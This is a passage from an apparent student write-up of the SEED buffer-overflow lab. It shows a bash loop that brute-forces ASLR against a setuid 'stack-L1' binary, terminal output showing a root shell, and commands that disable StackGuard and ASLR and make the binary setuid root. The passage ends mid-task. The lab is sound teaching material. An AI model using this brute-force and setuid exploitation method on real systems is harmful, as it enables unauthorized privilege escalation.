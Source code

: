 #### Task 5.2:
In this task, we are brute-forcing to defeat the ASLR feature. We are using a program that is provided to us, brute-force.sh:
```
#!/bin/bash

SECONDS=0
value=0

while true; do
    value=$(( $value + 1 ))
    duration=$SECONDS
    min=$(($duration / 60))
    sec=$(($duration % 60))
    echo "The program has been run $value times so far (time elapsed: $min minutes and $sec seconds)."
    ./stack-L1
done
```
Note: the exploit.py is the previous one that just runs stack-L1:
```
[03/02/21]seed@VM:~/.../code$ rm badfile
rm: cannot remove 'badfile': No such file or directory
[03/02/21]seed@VM:~/.../code$ exploit.py
[03/02/21]seed@VM:~/.../code$ ./brute-force.sh
...
./brute-force.sh: line 13: 756850 Segmentation fault      ./stack-L1
The program has been run 32688 times so far (time elapsed: 0 minutes and 24 seconds).
Input size: 517
# whoami
root
# id
uid=0(root) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
```
After 32,688 runs and 24 seconds, we have successfully defeated the ASLR feature. With enough time and luck, we are able to get passed ASLR with brute-force.


### Task 6:

#### Task 6.1:
In this task, we are testing other countermeasures. For example stackGuard, it is turned on by default (unless you are using gcc versions that are lower that 4.3.3). We have been turning it off on purpose with -fno-stack-protector. This time we will mess around with this countermeasure:
```
[03/02/21]seed@VM:~/.../code$ sudo /sbin/sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
[03/02/21]seed@VM:~/.../code$ gcc -DBUF_SIZE=100 -z execstack -fno-stack-protector -m32 -o stack-L1 stack.c
[03/02/21]seed@VM:~/.../code$ rm badfile
[03/02/21]seed@VM:~/.../code$ exploit.py
[03/02/21]seed@VM:~/.../code$ ./stack-L1
Input size: 517
$ whoami
seed
$ exit
[03/02/21]seed@VM:~/.../code$ sudo chown root stack-L1
[03/02/21]seed@VM:~/.../code$ sudo chmod 4755 stack-L1
[03/02/21]seed@VM:~/.../code$ rm badfile
[03/02/21]seed@VM:~/.../code$ exploit.py
[03/02/21]seed@VM:~/.../code$ ./stack-L1
Input size: 517
# whoami
```